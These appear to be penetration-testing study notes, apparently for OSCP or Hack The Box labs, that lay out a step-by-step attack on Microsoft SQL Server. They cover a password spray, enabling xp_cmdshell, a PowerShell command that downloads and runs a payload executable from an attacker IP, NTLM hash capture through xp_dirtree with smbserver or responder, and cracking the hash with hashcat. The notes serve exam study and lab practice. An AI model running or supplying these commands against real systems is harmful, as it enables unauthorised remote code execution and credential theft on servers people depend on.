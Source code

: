 Port 1433

spray:
```
nxc mssql 10.10.159.148 -u sql_svc -p Dolphin1 -x whoami
```

shell
```
mssqlclient.py -windows-auth oscp.exam/sql_svc:'Dolphin1'@10.10.159.148
```
- also try without `-windows-auth`

once connected to SQL, try enabling xp_cmdshell to run commands:
SQL> `use master`
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] INFO(MS02\SQLEXPRESS): Line 1: Changed database context to 'master'.
SQL> `sp_configure 'show advanced options', '1'`
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> `RECONFIGURE`
SQL> `sp_configure 'xp_cmdshell', '1'`
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> `RECONFIGURE`
SQL> `EXEC master..xp_cmdshell 'whoami'`
nt service\mssql$sqlexpress                                                                                     
SQL > `exec xp_cmdshell "powershell -c iwr -uri http://10.10.126.147:83/payload_1234.exe -Outfile c:\windows\temp\payload_1234.exe"`
SQL> `exec xp_cmdshell "powershell -c c:\windows\temp\payload_1234.exe"`

if no xp_cmdshell permissions, try xp_dirtree & impacket smbserver:
```
smbserver.py test . -smb2support
```
SQL> `EXEC xp_dirtree '\\<kali.ip>\test', 1, 1`
- will see user hash in smbserver.py
- can also use responder
	- `sudo responder -I tun0 `
- to crack ntlmv2 hash, copy entire hash, starting with first letter and run:
	- `hashcat -m 5600 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`
	- example hash to save in hashes.txt:
`DC01$::MANAGER:aaaaaaaaaaaaaaaa:a449be48471697e29e12179c8b3f4a4b:01010000000000008075a48fc5c5da011cc09eeab02291ec0000000001001000420044005600740068006b004b006c0003001000420044005600740068006b004b006c000200100063004e004200640050006700620064000400100063004e00420064005000670062006400070008008075a48fc5c5da01060004000200000008003000300000000000000000000000003000001b8f515b7210704c5914dd1d2d8ae1436fa4c997960b22794c47bffdbd369bdf0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330030000000000000000000`

SQL> `enum_db`
- will show databases
- master, tempdb, model, and msdb are all default

SQL>`xp_dirtree C:\`
- see filesystem
- if the machine also has port 80 open, check C:\inetpub\wwwroot for any files/pages not obviously accesible from website. than grab it with:
	- `wget http://manager.htb/website-backup-27-07-23-old.zip`

